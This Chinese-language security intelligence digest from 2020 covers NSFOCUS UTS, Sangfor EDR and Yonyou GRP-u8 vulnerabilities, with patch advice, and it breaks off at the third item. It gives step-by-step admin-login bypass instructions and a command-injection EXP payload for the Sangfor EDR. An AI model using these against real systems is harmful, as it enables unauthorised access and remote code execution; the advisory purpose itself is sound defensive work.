 # 2020 HW 截止2020年09月12日情报聚合

**整理：**Blackhold@棱角安全团队(Edge Security Team)

**时间：**2020年09月12日

### 一、绿盟UTS综合威胁探针管理员任意登录

绿盟综合威胁探针设备版本V2.0R00F02SP02及之前存在此漏洞。

**利用过程：**

逻辑漏洞,利用方式参考（[https://www.hackbug.net/archives/112.html](https://www.hackbug.net/archives/112.html)）

1. 修改登录数据包 `{"status":false,"mag":""} -> {"status":true,"mag":""}`
2. `/webapi/v1/system/accountmanage/account`接口逻辑错误泄漏了管理员的账户信息包括密码（md5）
3. 再次登录,替换密码上个数据包中md5密码。
4. 登录成功。

**加固建议:**

建议尽快更新补丁至最新： http://update.nsfocus.com/update/listBsaUtsDetail/v/F02

绿盟官方已发布关于绿盟科技UTS产品受“管理员任意登录漏洞”影响的说明，详情：
[https://mp.weixin.qq.com/s/4gCLvwkGsxYL8TxV50T8ng](https://mp.weixin.qq.com/s/4gCLvwkGsxYL8TxV50T8ng)

### 二、[2020年09月新]深信服EDR3.2.21 任意代码执行

**漏洞描述：**

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。 

深信服终端检测平台(EDR)在_3.2.21_版本中存在远程命令执行漏洞，该漏洞可被未经身份验证的攻击者利用，通过构造特定的HTTP请求绕过权限校验，从而获得目标服务器的权限，实现远程执行系统命令。

**影响版本：**

EDR <= v3.2.21

**利用EXP：**

```
{"params":"w=123\"'1234123'\"|命令"}
```

![-w1459](media/202009/15999238498818.jpg)


**加固建议：**

目前官方已有升级补丁：https://bbs.sangfor.com.cn/plugin.php?id=service:download&action=view&fid=100000022878128#/100000035115623/100001594263233/undefined

### 三、用友GRP-u8 SQL注入

**漏洞描述：**
